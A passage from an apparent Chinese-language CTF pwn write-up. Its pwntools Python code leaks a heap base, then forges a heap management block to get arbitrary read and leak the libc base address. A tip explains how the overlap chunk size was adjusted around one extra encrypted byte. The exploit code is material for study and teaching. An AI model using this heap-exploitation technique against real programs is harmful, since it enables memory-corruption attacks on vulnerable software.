 ```python
    res = rl().strip()
    heap_base = u64(res[0x28:0x30])- 0x420
    lg("heap_base", heap_base)
```

![image-20250829153243](images/image-20250829153243.png)

> [!tips]
>
> 一开始本来是将overlap chunk设为0x60大小的，但后来发现由于在加密时会多加密1byte，后续利用过程中伪造管理块中的堆指针时会出错，所以只能再多加0x10，覆盖到overlap chunk自己的管理块的`id`，多加密的1byte正好是`size`，不会影响伪造的结果。

泄露出堆地址之后，我们就可以伪造管理块，实现任意地址读了。这里既可以伪造`title`指针，也可以伪造`note`指针，这里我选择使用`title`泄露，固定`key`和`note`指向合法位置方便过检查。进一步泄露libc基址：

```python
    dele(10)
    payload = b""
    payload += p64(0)*3 + p64(0x31)
    payload += p32(0xb) + p32(6) # id length
    payload += p64(0) # org
    payload += p64(heap_base + 0x4c0) # title
    payload += p64(heap_base + 0x4d0) # key
    payload += p64(heap_base + 0x4e0) # note
    payload += p64(0x31)
    payload += p32(0xa)
    payload = enc(payload, b'b'*8)
    add(b'a'*6, b'b'*8, payload) #12 -> 0x70 chunk
    show(11)
    ru("note \"")
    libc_base = u64(rv(6).ljust(8, b'\x00')) - 0x209b20
    lg("libc_base", libc_base)
```
